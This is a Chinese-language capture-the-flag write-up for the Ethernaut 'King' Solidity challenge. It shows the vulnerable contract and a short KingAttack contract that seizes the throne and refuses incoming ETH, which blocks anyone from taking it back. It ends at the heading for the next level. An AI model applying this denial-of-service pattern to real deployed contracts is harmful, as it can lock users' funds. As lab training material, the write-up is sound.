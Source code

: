 这么有趣的游戏, 你的目标是攻破他.  
当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.  
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        //判断发送的数量大于当前账户的数量或者当前调用者是合约拥有者，否则交易回滚
        require(msg.value >= prize || msg.sender == owner);
        //将king地址转换为一个payable（可被接收ETH）地址，然后发送当前金额的以太到king地址
        payable(king).transfer(msg.value);
        //也就是如果转账成功，当前的调用者就成为新的king
        king = msg.sender;
        //更新奖池
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
### 解题思路
当转账ETH大于当前值时，会把这笔金额转给当前king的地址，如果这个地址不能接收ETH，或king地址一旦接收ETH就会触发交易回滚，则可以达到要求.
### 解题过程
1.获取实例合约地址  
2.创建king合约  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
    constructor(address _kingContractAddress) payable {
        // 确保我们有足够的以太币来成为国王
        require(msg.value > 0, "Need ETH to become king");
        
        // 调用King合约的receive函数来成为新的国王
        (bool success, ) = _kingContractAddress.call{value: msg.value}("");
        require(success, "Failed to become king");
    }

    // 不实现receive()或fallback()函数，使得合约无法接收以太币
}
```
3.在remix部署合约，附带0.01ETH转向题目中的合约地址  
4.检查king地址是否成功更换  
5.提交  
### 第十题 Re-entrancy
### 题目